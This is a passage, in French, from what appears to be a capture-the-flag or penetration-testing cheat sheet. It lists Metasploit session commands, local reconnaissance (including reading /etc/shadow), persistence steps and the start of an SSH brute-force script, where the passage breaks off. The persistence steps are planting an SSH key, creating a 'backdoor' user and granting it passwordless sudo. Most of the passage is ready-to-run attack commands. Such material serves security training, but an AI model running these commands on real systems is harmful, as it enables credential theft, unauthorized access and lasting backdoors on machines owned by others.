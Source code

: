 #### Via Metasploit sessions
```bash
# Lister les sessions actives
sessions

# Interagir avec une session
sessions -i <session_id>

# Upgrader vers Meterpreter
sessions -u <session_id>
```

### Reconnaissance locale
```bash
# Informations système
whoami
id
uname -a
cat /etc/passwd
cat /etc/shadow

# Recherche de flags
find / -name "*flag*" 2>/dev/null
find / -type f -name "flag" 2>/dev/null
locate flag
grep -r "flag" /home/ 2>/dev/null
```

### Persistance
```bash
# Ajouter une clé SSH
mkdir -p ~/.ssh
echo "ssh-rsa YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

# Créer un utilisateur backdoor
sudo useradd -m -s /bin/bash backdoor
sudo passwd backdoor

# Modifier sudoers
echo "backdoor ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
```

---

## Phase 7: Outils automatisés et scripts

### Script Bash pour force brute
```bash
#!/bin/bash
# ssh_bruteforce.sh

TARGET=$1
USERLIST=$2
PASSLIST=$3

if [ $# -ne 3 ]; then
    echo "Usage: $0 <target> <userlist> <passlist>"
    exit 1
fi

while IFS= read -r user; do
```